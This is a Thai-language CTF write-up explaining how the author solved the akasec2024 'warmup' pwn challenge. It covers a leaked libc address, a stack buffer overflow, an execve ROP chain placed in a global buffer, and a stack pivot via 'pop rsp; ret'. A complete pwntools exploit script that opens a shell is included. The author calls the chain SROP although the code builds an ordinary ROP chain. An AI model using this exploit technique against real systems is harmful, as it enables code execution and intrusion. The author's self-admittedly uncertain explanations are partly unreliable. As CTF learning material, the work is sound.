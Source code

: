 # Solution

-----

 สวัสดีครับผม Sudrit วันนี้จะมาลองเขียน writeup เกี่ยวกับ pwn จากงานแข่ง ctf  ที่ชื่อว่า akasec2024 กันครับ ต้องบอกก่อนเลยว่าผมไม่ค่อยรู้เรื่องพวกนี้เท่าไหร่ แต่จะลองมั่วๆดูนะครับ lol แล้วก็ผมไม่ได้ทำข้อนี้ในระหว่างแข่งครับ แต่มาทำหลังจากแข่งเสร็จแล้วนั่งอ่าน writeup คนอื่นรวมถึงสอบถามพี่ Jusmistic มาครับ เลยลองมาเขียนๆดูเพราะทบทวนตัวเอง แต่ไม่น่าจะแชร์ให้ใครดู 5555

ใครผ่านมาเห็นก็ไม่ต้องแชร์เยอะนะครับ ผม super shy



โดยโจทย์ข้อนี้มีชื่อว่า warmup ซึ่งผมคิดว่ามันไม่ warmup เลยยยย มันยากนะเนี้ย

เริ่มต้นที่โจทย์จะให้ไฟล์มาสองไฟล์คือ Binary File และ Dockerfile ซึ่งเราสามารถรันโจทย์ผ่าน docker ได้โดยมี env ต่างๆ เดียวกันกับโจทย์ในระบบทำให้เราสามารถดึงไฟล์ libc ที่โปรแกรมใช้มาได้โดยใช้ ldd จากนั้นทำการ patch ไฟล์ binary กับ libc ที่ได้มาและเริ่มทำการ decompile ตัวโจทย์กันเลยครับ โดยได้โค้ดตามนี้

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[64]; // [rsp+0h] [rbp-40h] BYREF

  helper();
  printf("%p\n", &puts);
  printf("name>> ");
  fgets(name, 512, stdin);
  printf("alright>> ");
  fgets(s, 88, stdin);
  puts("okey");
  return 0;
}
```

พบว่าตัวโปรแกรมมีการ leak ตัว address ของ puts มาให้ซึ่งทำให้เราสามารถหา base address  ของ libc ได้นะครับโค้ดประมาณนี้มั้ง ปล เพื่อความง่ายใน local ก็ปิด aslr ด้วยนะครับ

```python
leaked_puts = int(r.recv(14),16)
libc.address = leaked_puts - libc.sym.puts
log.info(hex(libc.address)) #0x7ffff7dab000
```

แล้วก็สังเกตุว่าตัวโปรแกรมจะมีการรับค่าจำนวนสองครั้งผ่าน fgets โดยสามารถใส่ใน name ได้จำนวน 512 bytes และ s อีก 88 bytes เป็นจำนวนสูงสุดที่ถูกจองไว้มั้งครับ โดยเราสามารถสังเกตุได้ว่าที่ตัวแปร s เราสามารถใส่ได้จำนวน 64+8 bytes จึงถึงจุดที่เรากำหนด rip ได้ครับ

ซึ่งตอนแรกผมทำแบบ ROP ทั่วไปที่ call system เลยครับแล้วมันไม่ได้ เพราะอะไรไม่รู้ 5555 แต่เหมือนมีคนอธิบายในดิสคอร์ดนะครับแต่ผมก็ไม่ค่อยเข้าใจใครรู้มาอธิบายผมด้วย ซึ่งการทำแบบเดิมๆนั้นมันทำไม่ได้ครับ มันเลยต้องใช้ท่าใหม่โดยท่านี้เรียกว่า Stack Pivot นะครับ หากใครอยากรู้ว่าคืออะไรไปหาอ่านได้ที่นี่เลยครับ [Stack Pivoting | Binary Exploitation (gitbook.io)](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting)

ซึ่งเงื่อนไขในการใช้งานได้นะครับ

1. มี input ที่เราใส่แล้วทำการ hijack control flow ได้ ในที่นี้ก็คือ s

2. มี input ที่เราใส่ได้เย๊อะๆ ในที่นี้ก็คือ name ซึ่งมี address คือ `0x404060`

3. มี gadget ที่เด็ดๆนะครับ `pop rsp; ret` ให้เราใช้งานดูได้จาก ROPgadget เลย

โดยเราจะเขียน rop chain ลงใน name นะครับโดยในกรณีนี้เหมือนที่ผมได้บอกตอนแรกครับคือมันใช้ system ไม่ได้เพราะไรไม่รู้ ผมเลยไปอ่านๆของคนอื่นมาเขาบอกว่า ต้องใช้ SigreturnFrame หรือก็คือการทำ SROP ครับ โดยใช้ syscall เป็นตัวหลักในการเรียกใช้ function ต่างๆ โดย signal ซึ่งในที่นี้เราจะเรียกใช้ `execve` โดยการเรียกใช้เราต้องเซทค่า register ตามที่กำหนดในเว็บนี้ครับ [Chromium OS Docs - Linux System Call Table](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md) จากนั้นเราก็ลองไล่หาดูนะครับ จะได้ประมาณนี้ 

| arch   | syscall NR | return | arg0                  | arg1 | arg2 |
| ------ | ---------- | ------ | --------------------- | ---- | ---- |
| x86_64 | rax        | rax    | rdi                   | rsi  | rdx  |
|        | 0x3b       | 0x3b   | address of "/bin/sh" | 0x0  | 0x0  |

แล้วเราก็ใช้ข้อมูลนี้มาเขียน rop chain ครับแล้วก็ทำการส่งเข้าตัวแปร name จะได้ประมาณนี้

```python
rop_chain = ROP(libc)
rop_chain.rdi = next(libc.search(b'/bin/sh\x00')) #argument 1
rop_chain.rsi = 0 #argument 2
rop_chain.rax = 0x3b #signal ของ execve ในการใช้ syscall 
rop_chain.raw(rop_chain.find_gadget(["syscall"])[0]) #set ตัว rip
r.sendlineafter(b'name>>',rop_chain.chain())
```

ต่อไปจะเป็นอะไรที่สำคัญนะครับแล้วผมก็ค่อนข้างจะงง 5555555

คือเราจะใช้ตัว `pop rsp; ret` ให้เป็นประโยชน์นะครับ โดยเราจะ exploit ส่ง payload ผ่าน s แล้วให้ execute ตัว rop chain ของเราที่ address ของ name โดยจะเห็นว่า rsp จะเป็นตัวที่อยู่ด้านบนสุดของ stack ในตอนนี้ซึ่งหากเรา ret ไปที่ gadget  ดังกล่าวจะทำให้ มีการ pop rsp ออกมาและถูกแทนที่ด้านบนสุดของ stack กลายเป็น address ของตัว name ที่เราได้ใส่ rop chain อัดเข้าไปข้างใน ดูได้จากสองรูปข้างล่างนะครับ พอเข้าสู่ rop chain แล้วก็รันตามกระบวนการเลยครับทำให้เราสามารถเข้าถึงเครื่องของโจทย์และได้รับ flag.txt

<img title="" src="./pic/2024-06-13-00-47-50-image.png" alt="" width="430" data-align="center">

<img title="" src="./pic/2024-06-13-00-49-00-image.png" alt="" width="426" data-align="center">

หากนำมาเขียน exploit จะได้ประมาณนี้ครับ

```python
#!/usr/bin/env python3

from pwn import *
from pwn import p64

exe = ELF("./warmup_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.39.so")

context.binary = exe
#context.log_level = "DEBUG"
context.terminal = ["xterm", "-e"]
context(os='linux', arch='amd64', log_level='debug')

def conn():
    if args.LOCAL:
        r = process([exe.path])
        gdbscript = """
        b *0x40124f
        b *0x40118e
        c
        """
        #gdb.attach(r,gdbscript=gdbscript)
    else:
        r = remote("addr", 1337) #เซิฟปิดไปละทำไม่ทัน TwT

    return r


def main():
    r = conn()
    leaked_puts = int(r.recv(14),16)
    libc.address = leaked_puts - libc.sym.puts
    log.info(hex(libc.address)) #0x7ffff7dab000
    
    rop_chain = ROP(libc)
    rop_chain.rdi = next(libc.search(b'/bin/sh\x00')) #argument 1
    rop_chain.rsi = 0 #argument 2
    rop_chain.rax = 0x3b #signal ของ execve ในการใช้ syscall 
    rop_chain.raw(rop_chain.find_gadget(["syscall"])[0]) #set ตัว rip
    r.sendlineafter(b'name>>',rop_chain.chain())
    
    rop_elf = ROP(exe)
    pop_rsp = rop_elf.find_gadget(["pop rsp","ret"])[0]
            
    payload = b'A'*64 + p64(0) + p64(pop_rsp) + p64(0x404060)
    r.sendlineafter(b'alright>>',payload)

    r.interactive()

if __name__ == "__main__":
    main()


```

โดยจากที่กล่าวมานี่ก็คือเทคนิค stack pivot นั่นเองครับที่เป็นการแก้ค่า rsp ให้เป็นค่าที่ของ address ที่เราต้องการแทน ที่อ่านๆมาเขาบอกว่าเป็นการ fake location อะไรซักอย่างบน stack มั้งครับ ผมก็ไม่แน่ใจ แล้วก็อีกอย่างคือไม่ต้อง code คล้ายๆผมก็ได้ครับ ผมเห็นคนอื่นเขาใช้ SigreturnFrame() ทำเลยก็ดูเท่ดีครับ ลองไปปรับๆใช้กันดู
